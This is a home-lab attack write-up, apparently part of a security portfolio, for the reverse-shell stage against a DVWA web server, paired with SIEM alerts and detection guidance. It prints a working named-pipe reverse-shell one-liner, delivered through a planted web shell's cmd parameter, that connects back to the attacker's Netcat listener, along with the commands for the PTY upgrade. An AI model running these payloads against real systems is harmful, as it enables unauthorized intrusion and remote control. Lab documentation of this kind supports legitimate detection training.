


# Stage 06 — Reverse Shell

> **Status:** Complete — evidence attached
> **Case:** [Case 01](../../04-Investigation/Cases/case-01-web-compromise.md)
> **Investigation:** [Stage 06](../../04-Investigation/Stages/stage-06-reverse-shell.md)
> **Evidence:** [attack](../Attack-Screenshots/) · [alert](../../03-Detection-Engineering/TheHive_Alert-ScreenShot/)

## Objective

Establish an interactive reverse shell connection from the compromised DVWA web host to the Kali Linux attacker machine. This transitions the attacker's foothold from one-off command execution via a web shell into a live, interactive shell session, followed by an upgrade to a fully featured pseudo-terminal (PTY) with job control and line editing.

## Commands

### 1. Attacker Listener Setup (Kali Linux — 192.168.232.135)

Verify interface configuration on `eth0` and start a Netcat TCP listener on port 4444:

```bash
# Verify attacker IP address
ip a

# Launch Netcat listener on port 4444
nc -lvnp 4444
```

### 2. Reverse Shell Payload Trigger (via Web Shell)

Submit a named-pipe (FIFO) reverse shell one-liner through the web shell uploaded in Stage 05 (`shell.php`) via an HTTP GET request:

```bash
# Executed via browser GET request to DVWA web shell:
http://192.168.56.30/hackable/uploads/shell.php?cmd=rm+/tmp/f;mkfifo+/tmp/f;cat+/tmp/f|/bin/sh+-i+2>%261|nc+192.168.232.135+4444+>/tmp/f
```

Decoded command payload executed by the web server:
```bash
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.232.135 4444 > /tmp/f
```

### 3. Shell Stabilization and PTY Upgrade (Kali Netcat Session)

Upon receiving the connection, upgrade the raw `/bin/sh` shell to a fully interactive Bash pseudo-terminal:

```bash
# Spawn an interactive bash pseudo-terminal using Python
python3 -c 'import pty; pty.spawn("/bin/bash")'

# Background the netcat session (press Ctrl+Z)
# Set local terminal to raw mode to pass through control characters
stty raw -echo; fg

# Reset terminal settings and define terminal type
stty sane
export TERM=xterm
```

## What happened

1. **Listener Initialization:** The attacker on Kali Linux (`192.168.232.135`) verified network settings using `ip a` on interface `eth0` and initialized a Netcat listener on TCP port `4444` (`nc -lvnp 4444`) to await inbound traffic from the target.
2. **Reverse Shell Trigger:** Leveraging the unauthenticated web shell (`shell.php`) planted in the `/hackable/uploads/` directory during Stage 05, the attacker constructed a GET request targeting `http://192.168.56.30/hackable/uploads/shell.php`. The query parameter `cmd` carried a POSIX named-pipe FIFO reverse shell payload targeting `192.168.232.135:4444`.
3. **Connection Callback:** The DVWA server executed the payload under the web server service account (`www-data`). The Apache worker initiated an outbound TCP connection from its interface `192.168.232.161` to `192.168.232.135:4444`, attaching `/bin/sh` standard input, output, and error streams to the network socket.
4. **Interactive Session Obtained:** The Kali Netcat listener intercepted the connection, immediately yielding a prompt as `www-data@dvwa:/var/www/html/hackable/uploads$`.
5. **PTY Terminal Upgrade:** The raw `/bin/sh` process lacked job control, tab completion, arrow-key navigation, and signal trapping (e.g., Ctrl+C would terminate the shell). To resolve this, the attacker used Python 3 to spawn a pseudo-terminal (`pty.spawn("/bin/bash")`), suspended the background job with `Ctrl+Z`, turned off echo and raw input handling on the local terminal (`stty raw -echo; fg`), restored sane terminal defaults (`stty sane`), and set `export TERM=xterm`. This provided a robust, full-screen interactive Bash session ready for privilege escalation.

## Evidence

### Attack Screenshots


*Figure 1: Kali Linux interface verification (`192.168.232.135`) and Netcat listener initialized on port 4444.*


*Figure 2: Browser request triggering the FIFO reverse shell one-liner via `shell.php`.*


*Figure 3 (Top Half): Reverse shell connection established from `192.168.232.161` as `www-data`, followed by Python PTY bash spawning and stty terminal configuration.*

### Alert Screenshots


*Figure 4: TheHive Alert 5 generated from Suricata and Wazuh telemetry detecting the outbound reverse shell connection.*

## Alert observed

| Source | Rule / Signature | Rule ID | TheHive Alert | Severity | Status |
|---|---|---|---|---|---|
| Suricata / Wazuh | Outbound Reverse Shell Connection / Interactive Shell Spawned by Web User | Suricata IDS / Wazuh Ruleset | Alert 5 (`5.png`) | High | Detected |

## MITRE ATT&CK

| Tactic | Technique | ID | Sub-technique |
|---|---|---|---|
| Execution | Command and Scripting Interpreter | T1059 | Unix Shell (T1059.004) |

## Detection opportunities

- **Process Lineage Anomaly:** Web server daemons (`apache2`, `httpd`, `php-fpm`) should never spawn interactive shell binaries (`/bin/sh`, `/bin/bash`, `/bin/dash`) or network utilities (`nc`, `netcat`, `curl`, `socat`). Host-based detection agents (Wazuh, Auditd, Sysmon for Linux Event ID 1) should trigger high-severity alerts whenever `parent_process = apache2` and `child_process in (/bin/sh, /bin/bash, python3)`.
- **Suspicious Command-Line Arguments:** Detection rules targeting invocation of named pipes (`mkfifo`), interactive flags with standard input redirection (`/bin/sh -i 2>&1`), or Python pseudo-terminal spawns (`pty.spawn`).
- **Outbound Network Telemetry:** Suricata or Zeek monitoring network egress from the DMZ/web tier to untrusted subnets or external addresses on non-standard egress ports (e.g., 4444/TCP).
- **File System / Ephemeral Files:** Monitoring the creation of FIFO special files or unexpected files within `/tmp/` or `/dev/shm` created by service users.

## Notes

- **Network Interfaces:** The DVWA machine is dual-homed: `ens37` (`192.168.232.161/24`) interfaces with the management/attacker network, while `ens33` (`192.168.56.30/24`) connects to the isolated internal Active Directory lab. The callback connected directly over the management subnet.
- **Operational Impact:** This stage represents the critical pivot from static HTTP-based request-response interaction to a continuous, bidirectional interactive command shell, enabling in-depth system enumeration.
